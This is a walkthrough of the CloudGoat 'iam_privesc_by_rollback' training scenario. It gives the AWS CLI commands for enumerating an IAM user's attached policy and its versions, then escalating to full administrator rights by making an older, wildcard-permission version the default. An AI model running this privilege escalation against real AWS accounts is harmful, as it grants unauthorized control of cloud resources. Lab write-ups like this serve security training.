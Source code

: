 ### 1. Initial Set-Up 
After launching the scenario, you will be provided with an Access Key and Secret. The first step is setting up a profile with the AWS CLI using these credentials.

```bash
aws configure --profile cloudgoat

export AWS_PROFILE=cloudgoat

aws sts get-caller-identity
# "Arn": "arn:aws:iam::0123456789:user/raynor-iam_privesc_by_rollback_cgidtm8l3zv490"
```

The ARN contains the username in the after `:user/`, it will be unique in each deployment.
I'll export it as an environment variable to make the cheat sheet clearer. `export IAM_USERNAME=raynor-iam_privesc_by_rollback_cgidtm8l3zv490`

### 2. Policy Enumeration
One of the first steps after gaining access to an IAM User is to enumerate the user's privileges in the environment. We can do that by listing the policies attached to the IAM User. 

- The first command - `list-user-policies` - are policies embedded directly into the user's IAM identity. 

- The second command - `list-attached-user-policies` - are separate, standalone IAM policies - either AWS managed or customer managed policies - that are attached to the user. 

```bash
aws iam list-user-policies --user-name $IAM_USERNAME
# None

aws iam list-attached-user-policies --user-name $IAM_USERNAME
# "PolicyName": "cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490"
# "PolicyArn": "arn:aws:iam::0123456789:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490"
```
Rather than typing out this policy each time, it can be helpful to export it as another enviornmental varible. 
```bash
export IAM_POLICY_ARN=arn:aws:iam::0123456789:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490`
```
### 3. Enumerating Policy Versions
In AWS IAM, each policy can have multiple versions - up to five - where only one version is set as the 'default" (active) version. Whenever you edit a policy, IAM creates a new version, leaving older versions saved in the background. 

Older, non-default versions may grant privileges that are no longer visible in the default version. If an attacker can switch the default to a more permissive version, they could elevate their access. 

```bash
aws iam list-policy-versions --policy-arn $IAM_POLICY_ARN
# Shows five versions

aws iam get-policy-version --policy-arn $IAM_POLICY_ARN --version-id v1
# v1 is the default version, the permissions currently granted to the user
```

The policy below is the v1 version, it grants "read" access (list & get) as well as the power to switch between versions of policies.

```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "iam:Get*",
                        "iam:List*",
                        "iam:SetDefaultPolicyVersion"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v1",
        "IsDefaultVersion": true
    }
}
```

Looking through the different policy versions `v3` has the following statement.

```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "*",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v3",
        "IsDefaultVersion": false
    }
}
```

Breaking this apart it grants all actions (`"Action": "*"`) to all resources. Since the current policy version grants the ability to change versions let switch to use this.

```bash
aws iam set-default-policy-version --policy-arn $IAM_POLICY_ARN --version-id v3
```

We now have **administrative permissions** and have completed the CloudGoat scenario!